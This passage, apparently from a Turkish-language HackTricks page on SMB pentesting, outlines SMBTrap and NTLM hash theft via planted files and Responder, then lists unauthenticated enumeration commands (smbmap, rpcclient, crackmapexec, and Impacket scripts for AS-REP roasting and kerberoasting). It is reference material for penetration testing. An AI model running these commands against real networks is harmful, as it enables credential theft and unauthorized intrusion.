 ### MitMf kullanarak SMBTrap

![Kaynak: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html](<../.gitbook/assets/image (94).png>)

## NTLM Hırsızlığı

SMB Tuzaklama ile benzer şekilde, hedef sisteme kötü amaçlı dosyalar yerleştirerek (örneğin SMB aracılığıyla) SMB kimlik doğrulama denemesi yapılabilir ve bu sayede NetNTLMv2 karmaşası, Responder gibi bir araçla ele geçirilebilir. Karmaşa daha sonra çevrimdışı olarak kırılabilir veya [SMB iletim saldırısında](pentesting-smb.md#smb-relay-attack) kullanılabilir.

[Görüntüle: ntlm\_theft](../windows-hardening/ntlm/places-to-steal-ntlm-creds.md#ntlm\_theft)

## HackTricks Otomatik Komutları
```
Protocol_Name: SMB    #Protocol Abbreviation if there is one.
Port_Number:  137,138,139     #Comma separated if there is more than one.
Protocol_Description: Server Message Block         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMB
Note: |
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’. Server Message Block in modern language is also known as Common Internet File System. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

#These are the commands I run in order every time I see an open SMB port

With No Creds
nbtscan {IP}
smbmap -H {IP}
smbmap -H {IP} -u null -p null
smbmap -H {IP} -u guest
smbclient -N -L //{IP}
smbclient -N //{IP}/ --option="client min protocol"=LANMAN1
rpcclient {IP}
rpcclient -U "" {IP}
crackmapexec smb {IP}
crackmapexec smb {IP} --pass-pol -u "" -p ""
crackmapexec smb {IP} --pass-pol -u "guest" -p ""
GetADUsers.py -dc-ip {IP} "{Domain_Name}/" -all
GetNPUsers.py -dc-ip {IP} -request "{Domain_Name}/" -format hashcat
GetUserSPNs.py -dc-ip {IP} -request "{Domain_Name}/"
```